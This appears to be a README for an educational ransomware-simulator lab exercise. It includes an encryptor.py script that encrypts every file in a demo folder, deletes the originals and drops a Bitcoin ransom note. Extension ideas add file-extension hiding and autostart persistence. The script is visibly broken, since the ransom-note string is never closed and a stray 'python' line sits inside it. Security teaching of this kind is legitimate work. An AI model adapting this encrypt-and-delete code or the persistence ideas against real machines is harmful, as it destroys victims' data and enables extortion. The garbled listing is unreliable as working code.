 # Webdeves Ethical Hacking Project (Team Evil)
# Ransomware Simulator Project (Ethical Hacking Lab)

## Objective
Simulate a ransomware attack in a controlled environment to understand how file encryption and ransom messages work. This project is strictly for **educational purposes** and should only be executed inside **virtual machines** on **test files** but will be used to build your confidence as an ethical hacker.


## Project Structure
```
ransomware_simulator/
│
├── encryptor.py            # Script to encrypt files and drop ransom note
├── decryptor.py            # Script to decrypt files with a key
├── key.key                 # Generated encryption key
├── ransom_note.txt         # Template ransom message (used in script)
├── demo_files/             # Test files that will be encrypted
└── README.md               # Instructions and documentation
```

- Only run this in **virtual machines**.
- Use only the `demo_files/` folder with dummy/test files.
- Never target system folders or real documents.
- Understand the legal and ethical implications before testing.


## Getting Started

### Step 1: Setup Environment
- Python 3.7+
- Install dependencies:
```bash
pip install cryptography
```
- Create test files in `demo_files/` folder (e.g. `.txt`, `.docx`, `.jpg`)

### Step 2: Run Encryptor
```bash
python encryptor.py
```
This will:
- Encrypt all files in `demo_files/`
- Replace originals with `.enc` files
- Create a ransom note called `README.txt`

### Step 3: Decryption
You’ll use the `decryptor.py` script and the `key.key` file to recover the original files. This will simulate what happens when a victim "pays the ransom".

---

## decryptor.py (To be added)
You will load:
- Load the `key.key`
- Decrypt each `.enc` file in the folder
- Recreate the original files

## Learning Outcomes
- Understand how ransomware operates
- Learn file encryption/decryption using `cryptography`
- Explore defense mechanisms and detection strategies
- Discuss ethical and legal implications of malware simulation

---

## Extension Ideas
- Add a GUI popup with countdown timer
- Simulate file extension hiding
- Add basic persistence (autostart simulation)
- Build a basic ransomware detector script (blue team exercise)

---

## 📬 Submission Checklist
- [ ] `encryptor.py` script completed
- [ ] `decryptor.py` script created
- [ ] Test run and screenshot of encrypted files
- [ ] Report (1 page): What you learned + detection methods

---

## Ethics Reminder
This project is for educational cybersecurity use only. Misusing this knowledge is illegal and unethical. Respect privacy, security, and laws at all times.

## encryptor.py

```Python
from cryptography.fernet import Fernet
import os, glob

# Create and store encryption key
key = Fernet.generate_key()
with open("key.key", "wb") as f:
    f.write(key)

fernet = Fernet(key)

# Folder containing files to simulate encryption
folder = "demo_files/"
os.makedirs(folder, exist_ok=True)

# Encrypt all files in folder
for filepath in glob.glob(folder + "*"):
    if filepath.endswith(".enc") or filepath.endswith("README.txt"):
        continue
    with open(filepath, "rb") as f:
        data = f.read()
    encrypted = fernet.encrypt(data)
    with open(filepath + ".enc", "wb") as f:
        f.write(encrypted)
    os.remove(filepath)

# Drop ransom note
ransom_note = """
--- YOUR FILES HAVE BEEN ENCRYPTED ---
To recover your data, send 1 BTC to the following address:
1A2b3C4d5E6f7G8h9I0j
Then contact us with proof of payment.
You have 48 hours before your files are lost forever.

python
with open(folder + "README.txt", "w") as f:
    f.write(ransom_note)

print("[+] Files encrypted. Ransom note dropped.")
```
